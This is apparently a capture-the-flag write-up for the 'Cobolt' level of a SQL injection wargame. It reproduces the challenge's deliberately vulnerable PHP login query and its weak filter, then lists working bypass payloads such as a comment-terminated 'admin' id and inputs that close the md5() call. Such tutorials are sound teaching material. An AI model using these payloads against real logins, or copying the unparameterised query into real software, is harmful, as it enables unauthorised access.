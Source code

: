 # **Cobolt**
## 1. What will we learn from this problem?
This problem wants to make sure you know basic **SQL injection**      

## 2. Analize codes  
    <?php
      include "./config.php";
      login_chk();
      dbconnect();

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[id]))  
        exit("No Hack ~_~");  

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~");   

      $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";

      echo "<hr>query : <strong>{$query}</strong><hr><br>";
      $result = @mysql_fetch_array(mysql_query($query));
      if($result['id'] == 'admin')  
        solve("cobolt");

      elseif($result['id'])  
        echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";

      highlight_file(__FILE__);
    ?>

### 1. preg_match()
We can't use string like these.(scope : id, pw)  

    prob | _ | . | ()

If we use one of these, we will see 'No Hack ~_~'

### 2. query
Query is this.

    select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')

Let's think how to modulate that.

### 3. if($result['id'] == 'admin')
If data which we got from database using query has 'id' field and the value of the field is same with 'admin',
then we can solve this problem.  

But there is no need to know the password  

Then How can we do that?

## 3. Solution  
This is quite simple problem. There are two ways to modulate this query.  
These are id and pw.  

If we use id parameter, we use annotation keyword.  
And if we use pw parameter, we have to use ) char to escape md5() function.  

### Using Keyword  

    or | ' | ) | --

### These are my answers.

    ?id=admin'%20--%20  

    ?pw=')or id=('admin

    ?pw=')||id='admin'%20--%20

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.m)**
